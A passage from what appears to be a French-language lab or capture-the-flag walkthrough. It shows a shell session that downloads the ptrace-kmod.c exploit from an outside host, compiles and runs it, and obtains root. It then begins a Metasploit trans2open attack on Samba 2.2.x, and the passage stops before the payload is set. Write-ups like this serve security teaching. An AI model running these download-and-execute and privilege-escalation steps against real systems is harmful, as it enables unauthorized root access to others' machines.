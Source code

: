 ```bash
bash: no job control in this shell
bash-2.05$ 
exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304- 
--14:45:59--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... connected!
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
--14:45:59--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   1.25 MB/s

14:45:59 (765.82 KB/s) - `ptrace-kmod.c' saved [3921/3921]

[+] Attached to 6148
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root
```
Nous voila root sur la cible ! 

## Exploitation avec Trans2open 

Nous y voila, sélectionnons notre exploit :

```bash
msf exploit(multi/samba/nttrans) > use exploit/linux/samba/trans2open
msf exploit(linux/samba/trans2open) > show options

Module options (exploit/linux/samba/trans2open):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce
```
Définissons les paramètres requis ainsi que le payload :
